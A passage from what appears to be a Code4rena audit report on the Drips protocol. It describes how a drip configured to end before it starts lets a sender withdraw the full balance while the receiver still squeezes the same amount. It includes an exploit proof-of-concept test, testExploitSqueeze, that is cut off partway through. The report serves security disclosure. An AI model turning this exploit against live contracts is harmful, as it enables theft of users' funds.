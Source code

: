Since the drip ends before it was created, the dripped amount is 0, so the sender can retrieve their full balance.

[https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L425-L430](https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L425-L430)

[https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L490-L496](https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L490-L496)

Now the receiver squeezes from this drip.

`SqueezeStartCap = \_currCycleStart() = 0th second, squeezeEndCap = 6th second`, so the receiver can still squeeze out the full amount even though the sender has withdrawn all of his balance.

Please add the following test to DripsHub.t.sol. It verifies that the sender has retrieved all of his assets but the receiver can still squeeze.

        function customSetDrips(
            uint256 forUser,
            uint128 balanceFrom,
            uint128 balanceTo,
            DripsReceiver[] memory newReceivers
        ) internal {
            int128 balanceDelta = int128(balanceTo) - int128(balanceFrom);
            DripsReceiver[] memory currReceivers = loadDrips(forUser);
    
            vm.prank(driver);
            int128 realBalanceDelta =
                dripsHub.setDrips(forUser, erc20, currReceivers, balanceDelta, newReceivers, 0, 0);
            
            storeDrips(forUser, newReceivers);
    
        }
    
        function testExploitSqueeze() public {
            skipToCycleEnd();
            // Start dripping
            DripsReceiver[] memory receivers = new DripsReceiver[](1);
            receivers[0] = DripsReceiver(
                receiver,
                DripsConfigImpl.create(0, uint160(1 * dripsHub.AMT_PER_SEC_MULTIPLIER()), uint32(block.timestamp), 2)
            );
    
            DripsHistory[] memory history = new DripsHistory[](2);
    
            uint256 balanceBefore = balance();
            skip(5);
            customSetDrips(user, 0, 2, receivers);
            (,, uint32 lastUpdate,, uint32 maxEnd) = dripsHub.dripsState(user, erc20);
            history[0] = DripsHistory(0, receivers, lastUpdate, maxEnd);
    
            skip(1);
            receivers = dripsReceivers();
            customSetDrips(user, 2, 0, receivers);
            (,, lastUpdate,, maxEnd) = dripsHub.dripsState(user, erc20);
            history[1] = DripsHistory(0, receivers, lastUpdate, maxEnd);
    
